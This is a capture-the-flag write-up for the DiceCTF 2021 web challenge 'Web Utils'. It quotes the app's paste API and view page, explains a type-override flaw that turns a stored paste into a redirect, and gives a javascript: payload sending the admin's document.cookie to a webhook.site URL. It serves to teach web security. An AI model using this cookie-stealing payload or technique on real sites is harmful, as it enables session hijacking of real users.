


# Web Utils

- CTF: DiceCTF 2021
- Category: Web


## Instructions

My friend made [this dumb tool](https://web-utils.dicec.tf/); can you try and steal his cookies? If you send me a link, [I can pass it along](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils).

Code in the [zip file](app.zip)

This app offers two features:
- Link shortener
- Pastebin

The relevant code is here:

```js
// Create a "paste"
fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)
        .header('Content-Type', 'application/json; charset=utf-8')
        .send({
          statusCode: 200,
          data: uid
        });
    },
    schema: {
      body: {
        type: 'object',
        required: ['data'],
        properties: {
          data: { type: 'string' }
        }
      }
    }
  });
```

```html
<!-- View page -->
<!doctype html>
<html>
<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
<body>
  <div style="font-family: monospace"></div>
</body>
</html>
```

## Analysis

The API endpoint allows you to override the type (paste or link) of what you are sending because the code explode the `req.body` after setting the type:

```js
database.addData({ type: 'paste', ...req.body, uid });
```

So we can create a `link` by sending a body as follow:

`{"data":"My paste data goes here","type":"link"}`

We now have the possibility to have text which is not a URL stored in the database as a link, which means the view page will run the following code:

```js
if (type === 'link') return window.location = data;
```

We can write the following allowing us to steal the admin cookie:

```js
javascript:document.location='https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c='+document.cookie
```

We need to first store the above code as a link:



Once this is created, we can submit the following URL to the admin:

https://web-utils.dicec.tf/view/vXK4PSDY

When the admin visits that link, they will be redirect to our endpoint with the cookie as a query param.


